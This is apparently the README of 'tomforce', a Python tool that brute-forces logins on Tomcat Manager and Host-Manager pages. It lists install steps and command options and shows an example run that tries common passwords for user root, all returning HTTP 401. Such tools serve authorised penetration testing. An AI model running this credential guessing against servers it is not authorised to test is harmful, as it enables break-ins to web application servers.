 # Tomcat Manager or Host-Manager Credential Bruteforcing

# Usage

git clone https://github.com/v1ru6/tomforce.git
pip install termcolor

python3 tomforce.py

options:

-h, --help                              show this help message and exit  
-U URL, --url URL                       Base URL to the Tomcat page (e.g., http://target.com)  
-P PATH, --path PATH                    Manager or host-manager URI (e.g., /host-manager/html)  
-u USERNAMES, --usernames USERNAMES     Path to file containing usernames  
-p PASSWORDS, --passwords PASSWORDS     Path to file containing passwords  
-v, --verbose                           Enable verbose output to see attempted credentials and encoded values  
-r RATE_LIMIT, --rate-limit RATE_LIMIT  Delay in seconds between requests (e.g., 0.5 for half a second)  
                        
# Example

python3 tomforce.py -U https://example.com -P /host-manager -u usernames.txt -p passwords.txt -v

[\+] Starting Brute-force Attack...                                                                        
[\*] Trying root:123456 → Encoded: cm9vdDoxMjM0NTY= → HTTP 401                                                                
[\*] Trying root:admin → Encoded: cm9vdDphZG1pbg== → HTTP 401                                                                 
[\*] Trying root:12345678 → Encoded: cm9vdDoxMjM0NTY3OA== → HTTP 401                                                          
[\*] Trying root:123456789 → Encoded: cm9vdDoxMjM0NTY3ODk= → HTTP 401                                                         
[\*] Trying root:1234 → Encoded: cm9vdDoxMjM0 → HTTP 401                                                                      
[\*] Trying root:12345 → Encoded: cm9vdDoxMjM0NQ== → HTTP 401                                                                 
[\*] Trying root:password → Encoded: cm9vdDpwYXNzd29yZA== → HTTP 401                                                          
[\*] Trying root:123 → Encoded: cm9vdDoxMjM= → HTTP 401                                                                       
[\*] Trying root:Aa123456 → Encoded: cm9vdDpBYTEyMzQ1Ng== → HTTP 401                                                          
[\*] Trying root:1234567890 → Encoded: cm9vdDoxMjM0NTY3ODkw → HTTP 401                                                        
[\*] Trying root:UNKNOWN → Encoded: cm9vdDpVTktOT1dO → HTTP 401                                                               
[\*] Trying root:1234567 → Encoded: cm9vdDoxMjM0NTY3 → HTTP 401                                                               
[\*] Trying root:123123 → Encoded: cm9vdDoxMjMxMjM= → HTTP 401                                                                
[\*] Trying root:111111 → Encoded: cm9vdDoxMTExMTE= → HTTP 401                                                                
[\*] Trying root:Password → Encoded: cm9vdDpQYXNzd29yZA== → HTTP 401
